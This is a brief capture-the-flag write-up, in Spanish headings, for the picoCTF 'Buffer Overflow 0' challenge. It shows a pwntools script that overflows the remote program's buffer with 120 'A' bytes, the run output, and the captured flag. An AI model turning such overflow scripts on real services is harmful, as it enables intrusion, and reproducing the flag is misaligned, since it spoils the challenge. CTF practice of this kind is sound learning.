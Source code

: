 # Retos PicoCTF


## Objetivo 
Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/173/vuln). You can view source [here](https://artifacts.picoctf.net/c/173/vuln.c).

Additional details will be available after launching your challenge instance.
## Solución 

```
┌──(kali㉿kali)-[~/picoCTF/retos-resueltos/binexp/bufferoverflow0]
└─$ python3 exp.py      
[+] Opening connection to saturn.picoctf.net on port 53042: Done
b'Input: '
[+] Receiving all data: Done (43B)
[*] Closed connection to saturn.picoctf.net port 53042
b'picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}\n'


from pwn import *


p = remote('saturn.picoctf.net',53042)

print( p.recv())

overflow = b'A'*120

p.sendline(overflow)

print(p.recvall())


```

## Notas adicionales 

## Referencias 
